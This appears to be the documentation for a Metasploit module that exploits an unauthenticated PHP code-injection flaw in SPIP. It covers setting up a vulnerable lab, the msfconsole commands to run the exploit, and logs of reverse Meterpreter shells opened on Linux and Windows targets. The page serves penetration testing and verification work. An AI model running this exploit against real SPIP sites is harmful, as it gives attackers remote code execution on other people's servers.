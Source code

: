 ## Vulnerable Application

This module exploits a PHP code injection in SPIP. The vulnerability exists in
the `oubli` parameter and allows an unauthenticated user to execute arbitrary
commands with web user privileges. Branches 3.2, 4.0, 4.1 and 4.2 are
concerned. Vulnerable versions are <3.2.18, <4.0.10, <4.1.18 and <4.2.1.

The module's `check` method attempts to obtain the SPIP version via a simple HTTP GET request to `/spip.php`
page and fingerprints it either via the `generator` meta tag, or by the
`Composed-By` header.

This module has been successfully tested against SPIP version 4.0.0.

## Setup

On Ubuntu 20.04, download a vulnerable instance of SPIP:

```
wget https://files.spip.net/spip/archives/spip-v4.2.0.zip
```

Unzip it to a specific folder:

```
mkdir spip-site 
cp spip-v4.2.0.zip spip-site/ 
cd spip-site / 
unzip spip-v4.2.0.zip
```

Install php and the necessary extensions:

```
sudo apt install -y php-xml php-zip php-sqlite3
```

Serve the application (while in the newly created spip-site directory):

```
php -S 127.0.0.1:8000
```

Navigate to the following URL, select `sqlite` for the database, and complete the installation:

```
http://127.0.0.1:8000/ecrire/
```

## Verification Steps

1. Start msfconsole
2. Do: `use exploit/multi/http/spip_rce_form`
3. Do: `set RHOSTS [IP]`
4. Do: `set LHOST [IP]`
5. Do: `exploit`

## Options

No options

## Targets

### 0 (PHP In-Memory)

This uses an in-memory PHP payload to execute code.

### 1 (Unix/Linux Command Shell)

This executes a Unix or Linux command.

### 2 (Windows Command Shell)

This executes a Windows command.

## Scenarios
### SPIP 4.2.0 - Linux target - PHP In-Memory
```
msf exploit(multi/http/spip_rce_form) > run http://127.0.0.1:8000

[*] Started reverse TCP handler on 192.168.1.36:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] SPIP Version detected: 4.2.0
[+] The target appears to be vulnerable.
[*] Got anti-csrf token: ZHsLFRQTGY9p0wCEbpT7JK7YhYzOupYuxRemHQ1KrmNOIonsgMLbNrmlewZfSwqzqLwjMMOcYBE5vNpVUt42LFLfKdJC9p94qg==
[*] 127.0.0.1:8000 - Attempting to exploit...
[*] Sending stage (39927 bytes) to 192.168.1.36
[*] Meterpreter session 4 opened (192.168.1.36:4444 -> 192.168.1.36:36488) at 2024-08-22 15:01:39 +0200

meterpreter > sysinfo 
Computer    : linux
OS          : Linux linux 5.15.0-113-generic #123-Ubuntu SMP Mon Jun 10 08:16:17 UTC 2024 x86_64
Meterpreter : php/linux
meterpreter >
```

### SPIP 4.2.0 - Unix/Linux Command Shell

```
msf exploit(multi/http/spip_rce_form) > run http://127.0.0.1:8000

[*] Started reverse TCP handler on 192.168.1.36:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] SPIP Version detected: 4.2.0
[+] The target appears to be vulnerable.
[*] Got anti-csrf token: ZHsLFRQTGY9p0wCEbpT7JK7YhYzOupYuxRemHQ1KrmNOIonsgMLbNrmlewZfSwqzqLwjMMOcYBE5vNpVUt42LFLfKdJC9p94qg==
[*] 127.0.0.1:8000 - Attempting to exploit...
[*] Sending stage (3045380 bytes) to 192.168.1.36
[*] Meterpreter session 5 opened (192.168.1.36:4444 -> 192.168.1.36:46044) at 2024-08-22 15:03:31 +0200

meterpreter > sysinfo 
Computer     : 192.168.1.36
OS           : LinuxMint 21.3 (Linux 5.15.0-113-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```

### SPIP 4.2.0 - Windows Command Shell

```
msf exploit(multi/http/spip_rce_form) > run http://192.168.1.48

[*] Started reverse TCP handler on 192.168.1.36:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] SPIP Version detected: 4.2.0
[+] The target appears to be vulnerable.
[*] Got anti-csrf token: Z1kE0G5FLDrWkF9cvFp5ZuEKbtEjqIxoWTXL9HxYFP/xXeUohvYklG+kfLo32Cas24teZEJVX4e10CE5HEAjZ4HpM7VAUZoh
[*] 192.168.1.48:80 - Attempting to exploit...
[*] Sending stage (201798 bytes) to 192.168.1.48
[*] Meterpreter session 3 opened (192.168.1.36:4444 -> 192.168.1.48:50092) at 2024-08-22 14:59:16 +0200

meterpreter > sysinfo 
Computer        : DESKTOP-NHU31ET
OS              : Windows 10 (10.0 Build 19045).
Architecture    : x64
System Language : fr_FR
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > 
```
